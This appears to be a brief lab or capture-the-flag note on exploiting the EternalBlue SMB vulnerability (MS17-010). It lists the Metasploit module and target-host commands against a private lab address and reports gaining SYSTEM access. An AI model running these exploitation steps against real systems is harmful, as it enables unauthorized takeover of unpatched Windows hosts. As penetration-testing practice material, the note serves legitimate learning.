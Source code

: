 # [Eternal Blue](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) 
- Possibly exploitable to **SMB Remote Windows Kernel Pool Corruption 
  exploit**
  
- **Metasploit Exploitation** 
---
- `use exploit/windows/smb/ms17_010_eternalblue`
- `set rhosts 192.168.157.129`
![[Pasted image 20250325035234.png]]
- Exploit successful as `nt authority\system` => root
![[Pasted image 20250325035346.png]]
  